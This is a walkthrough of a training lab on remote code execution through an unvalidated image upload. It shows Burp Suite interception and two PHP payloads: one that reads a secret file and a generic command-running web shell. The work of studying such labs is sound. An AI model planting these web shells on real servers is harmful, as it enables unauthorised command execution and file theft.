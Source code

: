# Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`.
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

---

## Exploiting File Upload Functionality for Remote Code Execution (RCE)

### Initial Discovery
1. Upon logging in as the `wiener` user, we discovered a feature on the home page to upload an avatar image:
   ![Avatar Upload Feature](https://github.com/user-attachments/assets/443c2f4a-de2c-4913-a004-1e757502520c)
   
2. The uploaded image was stored in the `/files/avatars/` directory, as observed in the page source code.

---

### Uploading a Test File
1. We intercepted the request for uploading the image using Burp Suite and sent it to the Repeater for further analysis:
   ![Upload Request in Repeater](https://github.com/user-attachments/assets/e64e72d4-73a5-4317-97eb-5c53079763f8)

2. After analyzing the request, we attempted to upload a malicious file containing a PHP one-liner:
   ```php
   <?php echo file_get_contents('/home/carlos/secret'); ?>
   ```
   We could also attempt to use others like this:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   ![image](https://github.com/user-attachments/assets/e8fa4c9e-2335-4f61-a057-79259093c45b)


   ## **Accessing the Malicious File**
 **Navigating to the Uploaded File:**  
   After successfully uploading the PHP file containing the malicious one-liner, we accessed it directly via the browser using the file path provided by the server:  
   ![Accessing the Malicious File](https://github.com/user-attachments/assets/d8a0d66a-ada2-46c7-bcca-e5d32e2390b5)

---

## **Lab Resolution** 
   ![Lab Resolution](https://github.com/user-attachments/assets/c1901f90-ebf0-49e4-85fd-b9dfcede187f)

   




